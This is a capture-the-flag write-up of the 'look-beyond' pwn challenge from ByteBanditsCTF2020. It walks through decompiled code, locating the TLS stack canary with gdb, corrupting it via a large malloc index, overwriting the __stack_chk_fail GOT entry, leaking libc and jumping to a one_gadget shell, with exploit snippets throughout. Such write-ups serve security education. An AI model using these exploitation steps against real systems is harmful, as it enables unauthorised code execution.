 
## look-beyond
### Description

> Beyond the Aquila Rift, or is it in between?
> nc pwn.byteband.it 8000
> Update
> Remote kernel is
> Linux 4.15.0-1057-aws #59-Ubuntu SMP Wed Dec 4 10:02:00 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

### Attachment

[chall](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ByteBanditsCTF2020/pwn/chall/chall)

### Analysis

#### Environment

We can got the OS from the `dockerfile`:

```shell
% cat Dockerfile 
FROM ubuntu:18.04
```

> so the remote environment is same as our local ubuntu 18.04  

#### main function

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3){
  unsigned __int64 size; // ST00_8
  _BYTE *ptr; // ST08_8
  void *buf; // ST18_8
  char v7; // [rsp+20h] [rbp-30h]
  unsigned __int64 v8; // [rsp+48h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  if ( dword_60107C )
  {
    if ( dword_60107C == 1 )
    {
      a2 = &puts;
      printf("puts: %p\n", &puts, a3);
    }
  }
  else
  {
    setvbuf(stdout, 0LL, 2, 0LL);
    a2 = 0LL;
    setvbuf(stdin, 0LL, 2, 0LL);
  }
  printf("size: ", a2);
  size = get_ul(&v7);
  ptr = malloc(size);
  printf("idx: ", size);
  ptr[get_ul(&v7)] = 1;
  printf("where: ");
  buf = get_ul(&v7);
  printf("%ld", buf);
  read(0, buf, 8uLL);
  dword_60107C = 1;
  return 0LL;
}
```

* at the beginning of `main`, if `dword_60107C==1` ,  `puts` address would be leaked

  > that means we should return to `main` again

* set `chunk[idx]` to `1` after any size of chunk allocated

* overwrite anywhere with 8 bytes any values

* at the end of `main`, set `dword_60107C` to `1` 

### Solution

We can hack `canary` to solve this challenges.

#### find stack_guard

`stack_guard` was the ptr pointed to `canary` in a struct of  `Thread Local Storage` 

> **Thread-local storage** (**TLS**) is a computer programming method that uses [static](https://en.wikipedia.org/wiki/Static_memory_allocation) or global [memory](https://en.wikipedia.org/wiki/Computer_storage) local to a [thread](https://en.wikipedia.org/wiki/Thread_(computing)). 

```c
typedef struct  
{  
  void *tcb;        /* Pointer to the TCB.  Not necessarily the  
               thread descriptor used by libpthread.  */  
  dtv_t *dtv;  
  void *self;       /* Pointer to the thread descriptor.  */  
  int multiple_threads;  
  int gscope_flag;  
  uintptr_t sysinfo;  
  uintptr_t stack_guard;  
  uintptr_t pointer_guard;  
  ...  
} tcbhead_t;  
```

We can find the address of  `stack_guard` by searching memory in `gdb`.

At the beginning of `main`,  `canary` was putted into stack:

```c
   0x4007de    mov    rax, qword ptr fs:[0x28]
 ► 0x4007e7    mov    qword ptr [rbp - 8], rax
```

search it: 

```c
pwndbg> search -8 0x9435c714eedda900
                0x7ffff7fe44e8 0x9435c714eedda900
```

![](http://image.taqini.space/img/20200412233253.png)

> gdb runnin in Ubuntu 18.04

the address of `stack_guard` was between `ld-2.27.so` and `stack`

#### Modify canary in TLS

the address of a large allocated memory (e.g. 1000000 bytes)  was near the address of `libc` and `ld`

![](http://image.taqini.space/img/20200412234901.png)

```c
search -8 0x9435c714eedda900
                0x7ff50f4b24e8 0x9435c714eedda900
pwndbg> p $rax
$6 = 140690499289104
pwndbg> p/x $rax
$7 = 0x7ff50f3bc010
pwndbg> p 0x7ff50f4b24e8-0x7ff50f3bc010
$8 = 1008856
```

and the offset between of `chunk` and `stack_guard` doesn't change

so we can allocate a 1000000 bytes chuck and modify canary to trigger `__stack_chk_fail`:

```python
se('1000000')  # size
se('1008857')  # index
```

#### back to main

then overwrite GOT of `__stack_chk_fail` with address of `main` 

```python
se('1000000')  # size
se('1008857')  # index
se('6295576')  # where
se(p64(main))  # content
```

so that we can back to `main` again and the real address of `puts` in libc would be leaked:

```python
ru('puts: ')
puts = eval(rc(14))
```

#### one gadget

```python
libcbase = puts-libc.sym['puts']
info_addr('libcabse',libcbase)
og = [324293,324386,1090444]

se('1000000')
se('2012376')
se('6295576')
se(p64(libcbase+og[1]))
```

modify `canary` again and overwrite GOT of `__stack_chk_fail` with the address of`one_gadget` to getsehll.

### More

the offset is not same between different OS, so we have to download an ubnutu 18.04 environment

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/ByteBanditsCTF2020/pwn/chall) 


